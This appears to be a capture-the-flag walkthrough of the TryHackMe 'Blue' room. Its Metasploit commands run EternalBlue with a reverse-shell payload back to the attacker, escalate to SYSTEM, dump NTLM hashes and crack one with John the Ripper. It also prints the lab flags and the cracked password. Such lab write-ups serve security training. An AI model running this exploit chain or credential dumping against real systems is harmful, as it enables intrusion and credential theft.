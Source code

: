 ```yaml
---
layout: default
title: Blue
---
```


"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the SMB (Server Message Block) protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.

EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.

This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).

### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)

---

## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later).

1.  How many ports are open with a port number under 1000?
2.  What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

We can answer these questions with just one nmap scan:

`nmap --script vuln [target_IP]`
This will return all open ports (9 in total, 3 under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or ms17-010).
![nmap]({{ site.baseurl }}/assets/images/thm/blue/ports.png)

## Gain Access
To get through this section you'll need to install the Metasploit framework. Then:

Become root: `sudo su`

Open up Metasploit: `msfconsole`

Set your local IP address as LHOST and LPORT to a random port that is not already in use:

`set LHOST tun0`
`set LPORT 4444`

Search Metasploit's database for the EternalBlue exploit: `search ms17-010`

![ms17-010]({{ site.baseurl }}/assets/images/thm/blue/ms17-010.png)

Use the exploit: `use exploit/windows/smb/ms17_010_eternalblue`

Show the options for the exploit: `show options`. You'll get "RHOSTS" as the first result.

![options]({{ site.baseurl }}/assets/images/thm/blue/options.png)

Now set RHOSTS as the target machine's IP address: `set RHOSTS` [target_IP]

Set the payload: `set payload windows/x64/shell/reverse_tcp`

Run the exploit: `run`

## Escalate
Background the session with Ctrl+z (then press `y` when prompted).

Let's now search the Metasploit database for info on how to convert a shell to a Meterpreter shell:
`search shell_to_meterpreter`

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`.

![shell]({{ site.baseurl }}/assets/images/thm/blue/shell.png)

Use this post module with `use 0` and show its' options with show options.

![session]({{ site.baseurl }}/assets/images/thm/blue/session.png)

Since we have two sessions going on, we will have to change the SESSION option to 1 with `set SESSION 1`. To know to which session you have to switch, use the command `sessions -l`.

![sessions]({{ site.baseurl }}/assets/images/thm/blue/sessions.png)

Now run the exploit with `run`.
Once we get the [*] Stopping exploit/multi/handler message, press Ctrl+c to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2]({{ site.baseurl }}/assets/images/thm/blue/session2.png)

![meterpreter]({{ site.baseurl }}/assets/images/thm/blue/meterpreter.png)

The `getsystem` command will now return this:

![system]({{ site.baseurl }}/assets/images/thm/blue/ports.png)

You can also list all the processes with the `ps` command and you can migrate to one of these.

![ps]({{ site.baseurl }}/assets/images/thm/blue/ps.png)

Find a process that runs at `NT AUTHORITY\SYSTEM` and copy its' PID.
Now migrate to it with `migrate [PID]` (e.g., `migrate 2868`).

## Cracking
Now use the `hashdump` command.

![hashdump]({{ site.baseurl }}/assets/images/thm/blue/hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with:

`echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with:
`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

This will return `alqfna22` as the password.
![john]({{ site.baseurl }}/assets/images/thm/blue/john.png)

## Find flags!
The first flag is located in the `C:\` folder:

> flag{access_the_machine}

The second flag is located in the `C:\Windows\System32\config` folder:

> flag{sam_database_elevated_access}

The third one is in `C:\Users\Jon\Documents`:

> flag{admin_documents_can_be_valuable}

That's all, hope I helped.
